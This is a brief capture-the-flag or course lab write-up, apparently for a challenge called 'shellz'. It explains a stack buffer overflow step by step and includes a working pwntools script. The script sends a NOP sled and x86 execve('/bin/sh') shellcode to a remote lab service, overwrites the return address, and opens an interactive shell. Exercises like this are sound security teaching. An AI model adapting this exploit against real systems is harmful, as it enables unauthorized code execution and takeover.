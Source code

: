 	2. I then replaced the tail-end of these nops with the address we were given, so that it would overwrite the return address.

	3a. Lastly, the actually difficult part, injecting the shellcode. For this I used the same shellcode from the labs, and (initially) just injected this right before the return address, and removed 0x22 nops (I used len() on just the asm() to find the length of the payload without the nops).

	3b. I realized this wasn't working and that it was entirely possibly this was due to the addresses the code was running in, was those of the registers it was using. So I decided to just push it back 0x100 bytes and put 0x100 nops after the shellcode, it luckily worked.
------------------------------------------------------------------
Program used

	#!/usr/bin/python

	from pwn import *

	#p = process("./shellz")
	p = remote("plsdonthaq.me", 3002)

	p.recvuntil("address:")

	address = p.recvuntil("\n", drop=True)
	address = int(address, 16)

	# for shell
	# "/bin/sh\x00" = 2f 62 69 6e 2f 73 68 00

	payload = b""
	payload += b"\x90" * (0x2008 - 0x22 -0x100) # 0x100 bytes for the nops before the
						    # address, 0x22 for the actual payload

	payload += asm("""

	    push 0x0068732f
	    push 0x6e69622f

	    mov ebx, esp
	    mov eax, 0xb
	    mov ecx, 0
	    mov edx, 0
	    mov esi, 0

	    int 0x80
	    
	    """)

	payload += b"\x90" * (0x100 + 0) # it didn't seem to work when I didn't include the +0
	payload += p32(address)

	p.sendline(payload)

	p.interactive()
